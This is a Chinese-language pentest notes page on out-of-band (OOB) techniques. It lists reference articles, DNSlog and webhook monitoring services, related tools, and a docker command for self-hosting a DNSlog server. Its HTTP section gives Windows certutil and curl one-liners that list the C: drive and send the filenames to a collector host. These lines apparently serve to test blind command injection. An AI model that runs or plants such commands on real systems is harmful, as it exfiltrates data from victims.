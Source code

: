 # OOB

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)
- [OOB（out of band）分析系列之DNS渗漏](https://cloud.tencent.com/developer/article/1047283)
- [Burpsuite之BurpCollaborator模块介绍](https://www.jianshu.com/p/92b4b8ddf12f)
- [Persistent Access to Burp Suite Sessions - Step-by-Step Guide](https://www.onsecurity.io/blog/persistent-access-to-burp-suite-sessions-step-by-step-guide/)
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- [HTTP BLIND](https://web.archive.org/web/20200224073305/https://echocipher.github.io/2019/07/22/HTTP-BLIND/)
- [Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)

**在线监控平台**
- http://ceye.io/
- https://webhook.site
- http://www.dnslog.cn/
- https://iplogger.org/
- https://log.xn--9tr.com/

**相关工具**
- [uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck) - 该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器
- [Buzz2d0/Hyuga](https://github.com/Buzz2d0/Hyuga) - 一个用来检测带外(Out-of-Band)流量(DNS查询和HTTP请求)的监控工具
- [ztgrace/mole](https://github.com/ztgrace/mole) - 识别和利用out-of-band (OOB)漏洞的burp扩展

**平台搭建**
- [十分钟快速自建DNSlog服务器](https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg)
- [DNSLOG的快速搭建攻略](https://www.yinxiang.com/everhub/note/471fd1c4-7885-4b67-aa39-41dc36102b43)
- [安全技术|DNSLOG平台搭建从0到1](https://www.4hou.com/posts/VoJ9)

**平台**
- [BugScanTeam/DNSLog](https://github.com/BugScanTeam/DNSLog) - DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具
- [lanyi1998/DNSlog-GO](https://github.com/lanyi1998/DNSlog-GO) - DNSLog-GO 是一款 golang 编写的监控 DNS 解析记录的工具，自带 WEB 界面
- [chennqqi/godnslog](https://github.com/chennqqi/godnslog)
    ```bash
    docker pull "sort/godnslog"
    docker run -p80:8080 -p53:53/udp "sort/godnslog" serve -domain yourdomain.com -4 100.100.100.100
    # yourdomain.com 替换为你的域名 100.100.100.100 替换为你的公网IP
    ```
- [yumusb/DNSLog-Platform-Golang](https://github.com/yumusb/DNSLog-Platform-Golang) - DNSLOG平台 golang 一键启动版
- [phith0n/conote-community](https://github.com/phith0n/conote-community) - Conote 综合安全测试平台社区版

---

# HTTP

**Windows**

- certutil

    使用 certutil 请求证书文件，并将下载文件重定向到 nul，无缓存、无需浏览器实现发起 http 请求
    ```bash
    for /F %x in ('dir /b c:\') do certutil -urlcache -split -f "http://127.0.0.1:8000/?result=%x" nul
    ```

- curl

    win10 等环境支持 curl
    ```bash
    for /F %x in ('dir /b c:\') do curl http://127.0.0.1:8000/%x
    ```
